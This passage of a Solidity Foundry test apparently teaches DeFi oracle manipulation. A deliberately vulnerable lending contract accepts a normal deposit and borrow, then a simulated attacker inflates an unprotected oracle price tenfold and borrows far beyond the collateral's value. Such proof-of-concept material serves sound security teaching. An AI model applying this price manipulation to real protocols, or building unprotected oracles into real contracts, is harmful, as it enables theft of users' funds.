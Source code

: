 ```solidity

        // Deploy the price oracle with a legitimate initial price (e.g., 100).
        oracle = new PriceOracle(100);

        // Deploy the vulnerable lending contract which relies on the above oracle.
        vulnerableLoan = new VulnerableLoan(oracle);
    }

    /// @notice testExploit demonstrates both normal and malicious usage of the contract.
    /// @dev Uses balanceLog to log ETH balances; simulates an attack by manipulating the oracle price.
    function testExploit() public balanceLog {
        // Ensure the test address/contract has enough ETH.
        vm.deal(address(this), 10 ether);

        // --- Normal Operation ---
        // Simulate a normal user depositing 1 ETH as collateral.
        uint256 depositAmount = 1 ether;
        (bool successDeposit, ) = address(vulnerableLoan).call{value: depositAmount}(
            abi.encodeWithSignature("depositCollateral()")
        );
        require(successDeposit, "Deposit failed");

        // Under legitimate oracle price (100), borrowing is allowed up to 1 ether * 100 = 100 units.
        uint256 normalBorrowAmount = depositAmount * oracle.getPrice();
        (bool successBorrow, ) = address(vulnerableLoan).call(
            abi.encodeWithSignature("borrow(uint256)", normalBorrowAmount)
        );
        require(successBorrow, "Normal borrow failed");

        emit log_string("Normal operation: Collateral deposited and borrowing within limits succeeded.");

        // --- Attack Simulation ---
        // The attacker manipulates the oracle price by setting it to an inflated value.
        uint256 manipulatedPrice = 1000;
        (bool successSetPrice, ) = address(oracle).call(
            abi.encodeWithSignature("setPrice(uint256)", manipulatedPrice)
        );
        require(successSetPrice, "Oracle price update failed");

        // Attacker deposits 1 ETH as collateral which now appears much more valuable.
        uint256 attackerDeposit = 1 ether;
        (bool atkDepositSuccess, ) = address(vulnerableLoan).call{value: attackerDeposit}(
            abi.encodeWithSignature("depositCollateral()")
        );
        require(atkDepositSuccess, "Attacker deposit failed");

        // With the manipulated price, the allowed borrow amount becomes 1 ether * 1000 = 1000 units.
        uint256 attackerBorrowAmount = attackerDeposit * oracle.getPrice();
        (bool atkBorrowSuccess, ) = address(vulnerableLoan).call(
            abi.encodeWithSignature("borrow(uint256)", attackerBorrowAmount)
        );
        require(atkBorrowSuccess, "Attacker borrow failed");

        emit log_string("Attack simulation: Oracle price manipulated enabling excessive borrowing.");

        // Educational Note:
        // The vulnerability arises because the lending protocol relies solely on an unprotected external oracle.
```